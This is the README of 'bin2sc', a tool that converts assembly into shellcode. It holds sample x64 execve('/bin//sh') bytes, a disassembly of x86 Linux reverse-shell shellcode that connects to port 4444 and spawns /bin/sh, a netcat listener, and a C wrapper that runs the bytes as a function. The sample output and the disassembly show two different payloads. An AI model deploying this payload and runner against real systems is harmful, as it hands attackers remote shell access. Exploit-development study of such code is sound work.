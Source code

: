 # bin2sc
Binary to shellcode

Note:
The core DLLs of Win32 are `kernel32.dll, user32.dll, and gdi32.dll`. if your shellcode uses syscalls from any of the core DLLs, you will need to add it. 

Win32 libs are located in `C:\\Program Files (x86)\Windows Kits\10\Lib\10.0.18362.0\um\`, in my case is `10.0.18362.0` version, but in your host machine could change.

## Install
```
git clone https://github.com/SkyBulk/bin2sc.git
chmod +x bin2sc.py
python3 bin2sc.py 
```

## Example Usage:
```python;
python3 bin2sc.py shellcode.asm {sc_arr,sc_app} {linux,win} {x86,x64} /full/path/to/WinApi32/kernel32.Lib
```

```asm
[+] block Shellcode
shellcode = ""
shellcode += "\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f"
shellcode += "\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f"
shellcode += "\x05"

[+] linear shellcode

\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05


[+] linear src_arr shellcode

shellcode = [0xf7, 0xe6, 0x50, 0x48, 0xbf, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x2f, 0x73, 0x68, 0x57, 0x48, 0x89, 0xe7, 0xb0, 0x3b, 0x0f, 0x05]
```

### Double check shellcode opcodes 

```asm
shellcode:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:	89 e5                	mov    ebp,esp
 8048062:	31 c0                	xor    eax,eax
 8048064:	31 c9                	xor    ecx,ecx
 8048066:	31 d2                	xor    edx,edx
 8048068:	50                   	push   eax
 8048069:	50                   	push   eax
 804806a:	b8 ff ff ff ff       	mov    eax,0xffffffff
 804806f:	bb 80 ff ff fe       	mov    ebx,0xfeffff80
 8048074:	31 c3                	xor    ebx,eax
 8048076:	53                   	push   ebx
 8048077:	66 68 11 5c          	pushw  0x5c11
 804807b:	66 6a 02             	pushw  0x2
 804807e:	31 c0                	xor    eax,eax
 8048080:	31 db                	xor    ebx,ebx
 8048082:	66 b8 67 01          	mov    ax,0x167
 8048086:	b3 02                	mov    bl,0x2
 8048088:	b1 01                	mov    cl,0x1
 804808a:	cd 80                	int    0x80
 804808c:	89 c3                	mov    ebx,eax
 804808e:	66 b8 6a 01          	mov    ax,0x16a
 8048092:	89 e1                	mov    ecx,esp
 8048094:	89 ea                	mov    edx,ebp
 8048096:	29 e2                	sub    edx,esp
 8048098:	cd 80                	int    0x80
 804809a:	31 c9                	xor    ecx,ecx
 804809c:	b1 03                	mov    cl,0x3

0804809e <dup>:
 804809e:	31 c0                	xor    eax,eax
 80480a0:	b0 3f                	mov    al,0x3f
 80480a2:	49                   	dec    ecx
 80480a3:	cd 80                	int    0x80
 80480a5:	41                   	inc    ecx
 80480a6:	e2 f6                	loop   804809e <dup>
 80480a8:	31 c0                	xor    eax,eax
 80480aa:	31 d2                	xor    edx,edx
 80480ac:	50                   	push   eax
 80480ad:	68 2f 2f 73 68       	push   0x68732f2f
 80480b2:	68 2f 62 69 6e       	push   0x6e69622f
 80480b7:	89 e3                	mov    ebx,esp
 80480b9:	b0 0b                	mov    al,0xb
 80480bb:	cd 80                	int    0x80
```

## shellcode testing 
```
blackleitus@blackleitus:~$ nc -lvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
```

## Wrapper shellcode

```c
#include <stdio.h>
#include <string.h>

unsigned char code[] = "\x89\xe5\x31\xc0\x31\xc9\x31\xd2\x50\x50\xb8\xff\xff\xff\xff\xbb\x80\xff\xff\xfe\x31\xc3\x53\x66\x68\x11\x5c\x66\x6a\x02\x31\xc0\x31\xdb\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc3\x66\xb8\x6a\x01\x89\xe1\x89\xea\x29\xe2\xcd\x80\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x49\xcd\x80\x41\xe2\xf6\x31\xc0\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";

int main(void) {
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
```

`Connection from localhost 49058 received!` 
